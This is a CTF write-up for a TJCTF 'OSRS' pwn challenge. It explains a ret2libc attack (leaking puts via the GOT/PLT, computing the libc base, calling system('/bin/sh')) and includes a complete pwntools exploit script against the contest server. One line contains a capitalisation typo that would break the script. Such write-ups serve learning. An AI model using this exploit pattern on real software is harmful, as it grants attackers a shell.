 # OSRS

There is literally zero protections.

We _could_ do ret to shellcode, but there's no jmp esp and the shifts with the buffer can be very temperamental.  
Instead, I used ret2libc, which is a lot more reliable.

Via the GOT and PLT, we can execute a simple leak of the address of puts.  
Feeding this value into libc database find, their libc version is libc6-i386\_2.27-3ubuntu1\_amd64

So, we can use the GOT and PLT to leak the address of puts and call main again.  
Then, we can subtract the appropriate value from this to get the libc base.  
Since we called main again, we get a second input, to which we can deliver the main payload of system\("/bin/sh"\).

```python
from pwn import *
NUM_TO_RET = 0x10c + 4
padding = b'A' * NUM_TO_RET
e = ELF("./osrs")
leak = flat(padding, e.plt['puts'], e.symbols['main'], e.got['puts'])
libc = ELF("/home/kali/Tools/libc-database/libs/libc6-i386_2.27-3ubuntu1_amd64")
p = remote("p1.tjctf.org", 8006)
p.recvuntil(": ")
p.sendline(leak)
P.recvlines(2)
output = p.recvline() # Our leak of the puts address
puts = u32(output[:4])
log.info(f"Puts address: {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
final = flat(padding, libc.symbols['system'], libc.symbols['exit'], next(libc.search(b"/bin/sh\x00")))
p.sendline(final)
p.interactive()
```

